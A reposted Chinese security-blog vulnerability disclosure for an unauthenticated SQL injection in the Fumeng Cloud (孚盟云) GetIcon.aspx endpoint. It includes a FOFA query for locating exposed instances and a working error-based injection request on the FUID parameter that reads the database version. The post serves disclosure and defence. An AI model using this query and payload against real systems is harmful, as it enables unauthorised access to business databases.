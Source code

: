 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk5MDYxODcwMA==&mid=2247483898&idx=1&sn=479ca01aab6c21e9d19081497f01a809

#  孚盟云 Getlcon.aspx 接口存在SQL 注入漏洞  
原创 zz  星络安全实验室   2025-07-13 14:49  
  
<table><tbody><tr><td data-colwidth="576"><section><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></section></td></tr></tbody></table>  
  
漏洞详情：  
  
上海孚盟软件有限公司是一家专注于外贸SaaS服务及行业解决方案的公司。其核心产品孚盟云的GetIcon.aspx接口存在SQL注入漏洞。攻击者无需身份验证即可通过精心构造的恶意请求参数注入SQL语句，可能造成数据库敏感信息泄露、数据被篡改，甚至系统权限被提升，从而严重威胁系统的数据安全性和完整性。  
  
漏洞复现：  
  
fofa：  

```
app=&#34;孚盟软件-孚盟云&#34;
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsMp5aLIMFbXoEyTIx9FmibXYwtOSV5OqXAlcaIKLCQXaj17urficOPnuw/640?wx_fmt=png&from=appmsg "")  
  
  
poc：  
  
受用户控制参数FUID没有进行过滤可以直接拼接成sql语句执行，利用报错注入查询数据库版本  

```
GET /Common/GetIcon.aspx?FUID=-1'and+1=@@VERSION-- HTTP/1.1
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsWDFlGiap22Lul90ibyvzIMvq8gthicF1UoLf4qS84xsogWEN5mklKibpBA/640?wx_fmt=png&from=appmsg "")  
  
  
修复意见：  
  
关注厂商动态，升级至安全版本  
  
  
